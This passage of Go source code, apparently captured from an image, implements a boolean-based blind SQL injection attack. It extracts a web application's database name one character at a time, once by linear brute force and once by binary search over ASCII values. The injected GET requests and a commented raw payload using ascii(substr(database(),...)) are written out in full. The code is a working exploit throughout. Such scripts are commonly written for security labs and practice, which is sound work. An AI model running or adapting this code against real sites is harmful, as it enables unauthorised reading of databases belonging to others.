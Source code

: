 ```go
			if err != nil {
				log.Fatalln("Unable to make request: ", err)
			}
			if strings.Contains(resp.String(), mark) {
				dbName += string(i)
				fmt.Println("database: ", dbName)
				exitFlag = false
				break
			}
		}
		j += 1
	}

	return dbName
}


func probeDatabaseBinary() string {
	defer measureTime(time.Now(), "Binary")

	dbName := ""
	sqlPayload := "database()"

	// all visible character is: 32( )->126(~)
	j := 1
	exitFlag := false
	for !exitFlag {
		// always assume we will exit in this loop
		exitFlag = true
		low := 32
		high := 126
		for high >= low {
			mid := (low + high) / 2

			// test current position
			// raw payload: 1' and ascii(substr(database(),1,1))=114 --+
			// We need to encode ` `(Space) into `%20` to ensure net/http processes URL correctly
			payload := fmt.Sprintf("1'%%20and%%20ascii(substr(%s,%d,%d))=%d%%20--+", sqlPayload, j, j, mid)
			resp, err := grequests.Get(baseURL + payload, nil)
			if err != nil {
				log.Fatalln("Unable to make request: ", err)
			}
			if strings.Contains(resp.String(), mark) {
				dbName += string(mid)
				fmt.Println("database: ", dbName)
				exitFlag = false
				break
			}

			// another test for narrow down left or right range to search
			payload = fmt.Sprintf("1'%%20and%%20ascii(substr(%s,%d,%d))>%d%%20--+", sqlPayload, j, j, mid)
			resp, err = grequests.Get(baseURL + payload, nil)
			if err != nil {
				log.Fatalln("Unable to make request: ", err)
			}
			if strings.Contains(resp.String(), mark) {
				low = mid + 1
			} else {
				high = mid - 1
			}
		}
```